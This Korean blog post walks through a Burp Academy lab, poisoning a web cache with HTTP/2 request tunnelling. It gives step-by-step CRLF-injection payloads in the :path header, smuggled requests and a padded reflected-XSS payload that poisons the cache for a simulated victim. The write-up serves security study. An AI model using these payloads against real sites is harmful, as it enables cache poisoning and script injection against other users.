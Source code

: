 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Bypassing access controls via HTTP/2 request tunnelling"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-02-29 21:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. HTTP 프로토콜2를 사용하는 서버에 대한 스머글링을 사용한다.
- 문제 주소: https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-web-cache-poisoning-via-request-tunnelling
- 취약점 설명페이지: https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling
- 난이도: EXPERT (어려움)

# 취약점 개요: HTTP 요청 터널링을 통한 웹 캐시 포이즈닝 
- 리퀘스트 터널링은 기본적으로 유저 자기 자신에게만 커넥션이 할당되므로 기존의 스머글링 공격이 통하지 않는다. 그래도 어떤 경우에는 공격이 가능한 경우가 있다. 
- 예를 들어, 리퀘스트 터널링이 가능한 사이트에 다음과 같은 인코딩되지 않은 유저 입력을 응답에 회신해주는 엔드포인트가 있다고 하자. 

```http
HTTP/1.1 200 OK
Content-Type: application/json

{ "name" : "test<script>alert(1)</script>" }
[etc.]
```

Content-Type이 json이기 때문에 이 자체로는 XSS가 가능하지 않지만, 리퀘스트 터널링을 통해 하나의 응답에 여러개의 응답이 혼재하는 경우에는 가능해지는 경우가 있다. 다음과 같은 경우다. 메인 응답의 Content-Type이 `text/html`이기 때문에 `<script></script>`부분을 만나면 웹 브라우저가 코드를 실행시키게 된다! 여기에 더해 프론트엔드 서버가 응답을 캐시하는 경우 웹 캐시 포이즈닝이 가능해지게 된다. 

![리퀘스트 터널링을 통한 XSS](/images/burp-academy-hrs-18-1.png)

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 프론트 엔드 서버는 HTTP/2 요청을 백엔드에 전송할 때 HTTP1으로 다운그레이드한다. 그리고 인커밍 헤더를 적절히 새니타이즈하지 못한다. 이로 인해서 스머글링이 가능하다. 
- 랩을 풀려면 캐시를 오염시켜 victim을 홈페이지에 접근시켜, 브라우저에서 alert(1)이 실행되도록 하면 된다. 
- victim은 15초마다 홈 페이지에 접근한다. 
- 프론트 엔드 서버는 백엔드를 향한 커넥션을 재사용하지 않기 때문에 (유저에 따라 각각 다른 커넥션을 사용하기 때문에) 기존의 HTTP 요청 스머글링에 대해서는 취약하지 않다. 그렇지만 여전히 요청 터널링에 대해서는 취약하다. 
- 힌트: 프론트엔드 서버는 몇 개의 클라이언트 인증헤더를 들어오는 요청에 붙여준다. 문제를 풀려면 이 헤더들을 노출시키는 방법을 찾아야 한다. 

```
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and doesn't consistently sanitize incoming headers.

To solve the lab, poison the cache in such a way that when the victim visits the home page, their browser executes alert(1). A victim user will visit the home page every 15 seconds.

The front-end server doesn't reuse the connection to the back-end, so isn't vulnerable to classic request smuggling attacks. However, it is still vulnerable to request tunnelling.
```

# 풀이 시도
1. 일단 문제 사이트를 관찰해본다. 다음과 같은 응답 헤더를 보아 캐시가 동작하는 것을 알 수 있다. 

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 8605

```

2. 다음으로 `<script>`가 그대로 응답에 나타나는 엔드포인트를 찾는다. 

3. 음... 못 찾겠다. 답을 슬쩍 본다. `GET /resources` 가 해당되는 엔드포인트인 것을 확인했다. 

![취약한 엔드포인트 확인](/images/burp-academy-hrs-18-2.png)

4. CLRF 인젝션으로 요청 터널링이 가능한 헤더를 찾는다. `:path` 헤더에 다음과 같은 페이로드로 CRLF 인젝션을 시도해보면 200응답이 확인되므로 삽입이 가능한 것을 알 수 있다. 

```http
/?cachebuster=1 HTTP/1.1\r\n
Foo: bar
```

![CLRF 인젝션](/images/burp-academy-hrs-18-3.png)

참고로 여기서 백엔드 서버가 보는 CRLF 인젝션된 후의 HTTP요청은 다음과 같이 생겼다. CRLF 때문에 HTTP/2 헤더가 Foo 헤더의 값으로 바뀐 것을 알 수 있다! 

```http
GET /?cachebuster=1 HTTP/1.1
Foo: bar HTTP/2
Host: 0a170092040d582482b0bb19005a0052.web-security-academy.net
Cache-Control: no-cache


```


5. 요청 메서드를 HEAD로 바꾸고, 페이로드를 다음과 같이 바꾼다. 게시글을 보는 요청을 스머글링한다. 

```http
/?cachebuster=2 HTTP/1.1\r\n
Host: YOUR-LAB-ID.web-security-academy.net\r\n
\r\n
GET /post?postId=1 HTTP/1.1\r\n
Foo: bar
```

![패이로드 설정](/images/burp-academy-hrs-18-4.png)

백엔드가 보는 요청은 이렇게 생겼을 것이다.

```http
GET /?cachebuster=2 HTTP/1.1
Host: 0a170092040d582482b0bb19005a0052.web-security-academy.net

GET /post?postId=1 HTTP/1.1
Foo: bar HTTP/2
Host: 0a170092040d582482b0bb19005a0052.web-security-academy.net
Cache-Control: no-cache
```

6. 그러면 다음과 같이 스머글링한 요청의 응답이 회신되는 것을 볼 수 있다. HTTP요청 터널링에 성공했다. 

![HTTP요청 터널링 성공](/images/burp-academy-hrs-18-5.png)

7. 페이로드를 다음과 같이 바꾼다. 반사형 XSS가 동작하는 엔드포인트다. 

```http
/?cachebuster=3 HTTP/1.1\r\n
Host: YOUR-LAB-ID.web-security-academy.net\r\n
\r\n
GET /resources?<script>alert(1)</script> HTTP/1.1\r\n
Foo: bar
```

![반사형 XSS가 동작하는 엔드포인트로 변경](/images/burp-academy-hrs-18-6.png)

8. 요청을 보내보면 타임아웃 에러가 발생하는 것을 볼 수 있다. 이는 메인 요청의 응답 크기가 8657바이트이기 때문에 프론트엔드 서버가 이 바이트만큼의 데이터가 오기를 기다리기 때문이다. 스머글링 요청이 회신하는 응답은 크기가 작기 때문에 이 크기를 키워줄 필요가 있다. 

![타임아웃 에러 발생](/images/burp-academy-hrs-18-7.png)

9. 9000바이트정도 의미없는 데이터를 `<script>alert(1)</script>`뒤에 붙인다. 이러면 스머글링 응답의크기가 9000바이트만큼 커질 것이다. 

![의미없는 데이터 세팅](/images/burp-academy-hrs-18-9.png)

10. 요청을 보내보면 타임아웃이 없어지고 XSS페이로드 삽입이 성공한 것을 볼 수 있다. HTTP응답의 Content-Type도 text/html이기 때문에 자바스크립트 코드가 실행될 것이다. 

![XSS 응답 확인](/images/burp-academy-hrs-18-8.png)

11. 이제 Path 에 지정했던 cachebuster 파라메터를 제거한다. 이래야 일반 유저에게 도달하는 페이지를 오염시키게 된다. (일반유저가 cachebuster파라메터를 붙여서 사이트에 접속하지는 않을 것이기 때문에)

제거 후에 요청을 보내보면 캐시 때문에 프론트엔드 서버가 기존에 저장되어 있던 응답을 반환한다. 요청을 계속 보내서 XSS응답이 새롭게 캐시되도록 만든다. 

12. 그리고 웹 사이트에 접속하면 alert창이 뜨는 것을 볼 수 있다. 이 상태로는 정상적인 화면을 볼 수 없으므로 `?cachebuster=1`를 붙여서 랩에 접속하면 문제 풀이에 성공했다는 메세지가 출력된다. 

![풀이 성공](/images/burp-academy-hrs-18-10.png)